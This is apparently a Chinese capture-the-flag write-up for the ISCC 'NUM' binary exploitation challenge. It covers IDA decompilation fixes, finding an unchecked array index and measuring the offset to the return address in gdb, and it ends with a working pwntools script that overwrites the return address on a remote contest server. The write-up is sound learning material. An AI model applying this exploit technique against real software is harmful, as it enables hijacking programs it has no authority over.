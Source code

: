 ```yaml
---
title: ISCC-pwn-NUM-wp
date: 2021-05-02 13:06:57
tags:
---
```




# NUM -wp

学习到的知识点：

> IDA宏定义
>
> IDA中改bug
>
> 数组、switch的伪代码分析



## 反汇编失败--参数不匹配

![](https://i.imgur.com/kdQWRCR.png)



从汇编代码中可以看见scanf的参数是四个，而反汇编那里出来的参数多于四个。	

![](https://i.imgur.com/6WpcZTZ.png)



![](https://i.imgur.com/bU4r5I9.png)

在这里改为四个参数，将后面的参数全部删除。

按'y'键更改。

![](https://i.imgur.com/QFPiGhV.png)



## 读反汇编出的c语言代码

![](https://i.imgur.com/2102GnB.png)

这是一个数组，首地址(&v17),a2是数组的长度。

![](https://i.imgur.com/ZduiP7i.png)

这也是一个char数组的循环赋值



## 多层循环实际上是switch语句



可以看到后面的输入输出语句都是对应着菜单。

漏洞点在输入为3. Change One?，没有对数字进行边界控制，也就是说当我们只有一个a[3]数组，我们可以更改到a[1024]甚至更多。里面的数字就是对应首地址的偏移地址。

![](https://i.imgur.com/tE3n3UI.png)



**假如v17[a2]访问到这里的print函数，并且地址是ret返回地址。我们就获得了程序控制。**



![](https://i.imgur.com/jBqLbfT.png)





## 数组的首地址





![](https://i.imgur.com/56laxlH.png)

![](https://i.imgur.com/Uoe6NQ2.png)

这里创建输入数组数据

在gdb中输入1  1来看是否是数组的首地址。



![](https://i.imgur.com/Ut7Z0eA.png)

在黄色高亮处gdb下断点。



![](https://i.imgur.com/o8mouXN.png)

可以看到EDX是0x1也就是我们输入进去的1

![](https://i.imgur.com/j9lxOiR.png)

## 分析一下scanf()函数

![](https://i.imgur.com/8Ep6fUf.png)

从汇编中可以看到程序通过**scanf**将数据存储到栈中，然后通过**eax和ecx**将数据存储到**eax**中存放的地址中去（cl是ecx的低位）

那意味着在程序运行到**0x08049321**的位置时，此时eax中存放的即时数组的首地址。

![](https://i.imgur.com/q07EHg5.png)



## 找到数组和ret之间的偏移

数组首地址可以从gdb中知道，也就是eax的值。

> 0xffffcf38 数组首地址

而ret的值可以通过不断执行到ret，再查看esp的值从而得知。

> 0xffffcfbc  返回地址

之间的差值是0x84，也就是说数组的首地址再偏移0x84就到了ret的第一个字节。



于是wp如下：



```
#coding:utf8
from pwn import *
context.log_level = 'debug'
process_name = './NUM'
    # p = process(process_name)
p = remote('39.96.88.40',7030)
     
     
hackhere = [0xb2, 0x91, 0x04, 0x08]
write_offset = 0x84
     
def change_number(offset, value):
  p.sendlineafter('5. Exit?', '3')
  p.sendlineafter('Change which?', str(offset))
  p.sendlineafter('New NUM:', str(value))
     
p.sendlineafter('So, how many NUM?', '1')
p.sendlineafter('Send NUM', '1')
p.recv()

for i in range(4):
  change_number(write_offset+i, hackhere[i])
     
p.sendlineafter('5. Exit?', '5')
     
     
p.interactive()
```



> 注意缩进





## 仍有疑惑的点：

> 后面change的循环是怎么赋值的？
>
> 为什么用低一字节的dl传给[eax]?